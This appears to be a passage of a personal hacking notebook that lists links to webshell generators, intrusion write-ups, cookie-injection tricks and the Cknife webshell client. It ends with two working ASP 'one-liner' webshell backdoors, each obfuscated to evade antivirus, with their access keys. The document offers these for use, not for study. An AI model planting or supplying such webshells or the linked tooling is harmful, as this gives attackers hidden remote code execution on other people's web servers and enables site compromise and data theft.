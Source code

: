 22.webshell:
  webshell generate site(good):http://www.zjjv.com/
  good:https://r57.gen.tr/
       http://www.dcvi.net/
  http://www.passwaf.com/
  http://cduan.cc/ma/index.htm
  php-b374k(PHP version > 4.3.3 and PHP 5):https://github.com/b374k
         (browser old version): https://code.google.com/p/b374k-shell/
  http://www.dcvi.net/

23.经典入侵思路:
  http://www.2cto.com/Article/201201/115793.html(伪静态注入到获得webshell)

24.cookie注入中转http://www.rising.com.cn/newsletter/news/2012-08-23/12195.html(目前认为只可asp,get)

25.vpn搭建教程(2003server)
    http://www.xfisp.com/style/info/shownews.asp?id=3(pptp)
    http://vps.gl/windows/215.html  http://help.fireinter.com/tengxunyun/2015/0203/354.html(l2tp)

26.关于ipcam的UPnP或NAT的知识http://www.pernet.tv/thread-103-1-1.html

27.google search api for python
    具体详情见百度云盘笔记文件夹

28..NET reverse tool(graywolf):https://www.digitalbodyguard.com/graywolf.html

29.linux fdisk->ext3->mount:http://cuchadanfan.blog.51cto.com/9940284/1671416

30.Cknife  java环境菜刀  已放到/usr/share

31.免杀一句话:http://blog.hacku.cn/post/260.html
           http://www.freebuf.com/articles/web/9396.html
           kali linux2.0:
            webacoo
            weevely
   asp:

		<%
		wei="日日日)""wei""(tseuqer lave 日"
		execute(UnEncode(wei))
		function UnEncode(cc)
			for i = 1 to len(cc)
				if mid(cc,i,1)<>"日" then
					temp = Mid(cc, i, 1) + temp
						else
					temp=vbcrlf&temp
						end if
						next
							UnEncode=temp
						end function
		%>


		key:iew



   <%execute(unescape("eval%20request%28%222016%22%29"))%>          key:2016
